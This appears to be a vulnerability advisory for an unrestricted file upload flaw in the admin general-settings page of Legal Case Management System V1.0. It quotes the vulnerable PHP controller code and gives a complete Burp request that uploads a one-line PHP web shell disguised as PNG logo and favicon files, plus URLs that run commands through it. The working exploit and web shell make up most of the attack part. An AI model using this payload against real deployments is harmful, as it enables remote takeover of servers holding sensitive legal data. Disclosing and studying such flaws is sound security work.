

# Legal Case Management System - File upload RCE (/admin/general-setting) 

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version: 

```
V1.0
```

### Tested on: 

```
PHP, Apache, MySQL
```

### Affected Page:

```
/admin/general-setting
```

After submitting the logo and favicon files on the /admin/general-setting page, the program did not verify the file name and file content, resulting in a file upload vulnerability.

```php
// GeneralSettingDateController.php
//----------LOGO image--------
if ($request->hasFile('logo')) {
    if ($GeneralSettings->logo_img != '') {
        $imageUnlink = public_path() . config('constants.LOGO_FOLDER_PATH') . '/' . $GeneralSettings->logo_img;
        if (file_exists($imageUnlink)) {
            unlink($imageUnlink);
        }
        $GeneralSettings->logo_img = '';
    }
    $image = $request->file('logo');
    $name = time().'_'.rand(1,4).$image->getClientOriginalName();
    $destinationPath = public_path() . config('constants.LOGO_FOLDER_PATH');
    $image->move($destinationPath, $name);
    $GeneralSettings->logo_img=$name;
}
//---------------------favicon  Image --------------
if ($request->hasFile('favicon')) {
    if ($GeneralSettings->favicon_img != '') {
        $imageUnlink = public_path() . config('constants.FAVICON_FOLDER_PATH') . '/' . $GeneralSettings->favicon_img;
        if (file_exists($imageUnlink)) {
            unlink($imageUnlink);
        }
        $GeneralSettings->favicon_img = '';
    }
    $image = $request->file('favicon');
    $name = time().'_'.rand(1,4).$image->getClientOriginalName();
    $destinationPath = public_path() . config('constants.FAVICON_FOLDER_PATH');
    $image->move($destinationPath, $name);
    $GeneralSettings->favicon_img=$name;
}
```

### Proof of vulnerability:

Upload png, capture the packet, modify the file content to malicious code, and modify the file suffix to php

**Burp Request:**

```
POST http://192.168.150.131/admin/general-setting/1 HTTP/1.1
Host: 192.168.150.131
Content-Length: 1373
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylBtBKn2IqCPlAeTQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/general-setting
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjVxVUJCcWRjMWZ1OVBackFDazVicHc9PSIsInZhbHVlIjoibzJyQ2ZyNGZXY1pLSzkxRWJcL0pwdVFzd0lmamJRNEJxSzFhR2pURUlNY01jUnRySHdVblRYekN2U2orakRFaUwiLCJtYWMiOiI0MzU5ZjE1ZjA5ZDQwOTAwMzQ0M2YxMTgyOGQ0ZmMxZjlmOTViOWJjZmEzYTNhYzM1NWQ2OTE1OTIzMzExYzIzIn0%3D; test_session=eyJpdiI6ImdFVUtFdjFCK3pOZGpPNlwvRkZBYUFRPT0iLCJ2YWx1ZSI6InpQZ1lUazhhdWdqTE96U24rdW5jV0lBMGp1bW9IT1lHWEJyU3BmQkx3ZUR6aDhKZHhZajFXQ3J0VWRJV1g4eDIiLCJtYWMiOiJhMDZmYTI2ZmY1Nzk0MTZlYjdiMGJiNGU4NWFjNTQ1OTMzYWY0YThlZjRlZjdkZDNlM2U0NzNmZWExMTM1Y2JlIn0%3D
Connection: close

------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="_token"

8LEGiyeCCsDsPjd91fKMYM2hrKU4RdTG2Pyk5zMU
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="_method"

PATCH
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="cmp_name"

1
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="address"

804, Rivera Wave, Nr. McDonald's, Kalawad Road
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="country"

103
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="state"

1707
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="city_id"

21611
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="pincode"

360005
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="favicon"; filename="1.php"
Content-Type: image/png

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="logo"; filename="2.php"
Content-Type: image/png

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundarylBtBKn2IqCPlAeTQ--

```

```
http://192.168.150.131/public//upload/favicon/1715170022_11.php?cmd=whoami
http://192.168.150.131/public//upload/logo/1715170022_32.php?cmd=whoami
```

### Screenshot




